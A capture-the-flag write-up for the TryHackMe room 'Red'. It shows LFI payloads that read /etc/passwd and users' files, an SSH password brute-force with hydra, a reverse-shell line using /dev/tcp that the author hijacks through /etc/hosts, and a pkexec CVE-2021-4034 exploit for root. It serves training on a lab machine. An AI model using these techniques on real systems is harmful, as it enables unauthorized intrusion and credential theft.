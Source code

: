 ```yaml
---
title: "Red"
date: 2025-03-12
image: /assets/img/tryhackme/Red/Red_image.jpg
description: Writeup of the TryHackMe-CTF Red
categories: [TryHackMe, Easy]
tags: [linux, web, lfi, suid]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Red</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>A classic battle for the ages.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/redisl33t">https://tryhackme.com/room/redisl33t</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Red.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.219.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 06:34 EDT
Nmap scan report for 10.10.219.185
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 36.12 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.219.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 06:35 EDT
Nmap scan report for 10.10.219.185
Host is up (0.038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

I started by analyzing the web server. The first thing I noticed was the URL pattern, which resembled an Local File Inclusion (LFI). After testing different payloads, I was able to read `/etc/passwd`:
```bash
$ curl http://10.10.219.185/index.php?page=php://filter/resource=/etc/passwd             
root:x:0:0:root:/root:/bin/bash
[...]
blue:x:1000:1000:blue:/home/blue:/bin/bash
[...]
red:x:1001:1001::/home/red:/bin/bash
```

Since I was able to read arbitrary files from the filesystem, I tried to find something useful. The `.bash_history` file contained an interesting hint for another file:
```bash
$ curl http://10.10.219.185/index.php?page=php://filter/resource=/home/blue/.bash_history
  echo "Red rules"
  cd
  hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
  cat passlist.txt
  rm passlist.txt
  sudo apt-get remove hashcat -y
```

The user blue built a password list based on a file called `.reminder` using hashcat. I was able to download the content of the file and create a password list the same way blue did: 
```bash
$ curl http://10.10.219.185/index.php?page=php://filter/resource=/home/blue/.reminder > pass
$ hashcat --stdout pass -r /usr/share/hashcat/rules/best64.rule > passwdlist
```

Since I knew that the user blue created this list, I used it to brute-force the SSH access:
```bash
$ hydra -l 'blue' -P passwdlist ssh://10.10.219.185
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-12 07:15:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.219.185:22/
[22][ssh] host: 10.10.219.185   login: blue   password: [removed]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-12 07:15:46
```

The brute-force was successful, and I was able to retrieve the first flag:
```bash
$ ssh blue@10.10.219.185
blue@red:~$ cat flag1 
  THM{[removed]}
```

## Privilege Escalation red

While analyzing the machine, random notes from the user red appeared. These could have come from a script or task running in the background, so I checked the running processes from user red and found red's reverse shell:
```bash
blue@red:~$ ps auxw | grep red
red          949  0.0  0.0   6972  2520 ?        S    12:45   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

The domain `redrules.thm` was set by an entry in the hosts file. Using the following command, I was able to modify the hosts file. After some time, I  received the reverse shell and was able to retrieve the second flag:
```bash
blue@red:~$ /usr/bin/echo "10.21.63.26 redrules.thm" | tee -a /etc/hosts
  10.21.63.26 redrules.thm
red@red:~$ cat flag2
  THM{[removed]}
```

Note that red was trying to kick blue out, so I had to add the entry in the hosts file several times.

## Privilege Escalation root

While searching for a way to escalate the privileges, I checked for SUID bits and found an interesting one in red's home directory. It was `pkexec`, which can be exploited when the SUID bit is set. After some research, I found the following exploit on <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">GitHub</a>. I created a Python file locally on my machine and changed the last line to the `pkexec` path on the machine:
```python
libc.execve(b'/home/red/.git/pkexec', c_char_p(None), environ_p)
```

After copying the file to the machine, I was able to execute the exploit and retrieved the root flag:
```bash
red@red:~/.git$ python3 privesc.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7f44ff6cd000 at 0x7f44fef44580>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# whoami
  root
# cd /root
# cat flag3
  THM{[removed]}
```

solved! :)
